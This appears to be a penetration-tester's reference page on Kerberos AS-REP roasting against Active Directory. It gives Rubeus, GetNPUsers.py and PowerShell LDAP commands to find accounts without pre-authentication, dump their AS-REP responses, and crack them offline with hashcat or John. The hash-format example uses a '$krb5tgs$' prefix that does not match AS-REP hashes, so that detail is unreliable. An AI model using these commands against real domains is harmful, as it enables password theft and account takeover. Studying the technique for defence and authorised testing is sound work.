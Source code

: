 # Active Directory - Kerberos AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` / `GetNPUsers.py` must
be started in a domain authenticated security context or provided with working
domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>
Rubeus.exe asreproast /format:john /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>

# Will attempt to request a TGT for all users.
GetNPUsers.py -request <DOMAIN>/<USERNAME>[:<PASSWORD>]
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-NetUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-NetUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication.

The following operations do not require the knowledge of valid credentials.

```
Rubeus.exe asreproast /user:<USERNAME> /outfile:<FILE>
Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME> /outfile:<FILE>

GetNPUsers.py '<DOMAIN>/' -usersfile <USERNAMES_FILE>
GetNPUsers.py '<DOMAIN>/' -dc-ip <DC_HOSTNAME | DC_IP> -usersfile <USERNAMES_FILE> -format john
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the `KRB_AS_REP` responses.

The hash needs to respect the following format to be recognized `hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>@<DOMAIN>:$85DA[...]
```

Depending on the tool used, the hash retrieved may need to be manually updated.

The following commands can be used to crack the `KRB_AS_REP` responses:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 18200 -a 0 [-r <RULE_FILE>] '[<HASH> | <HASHFILE>]' <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
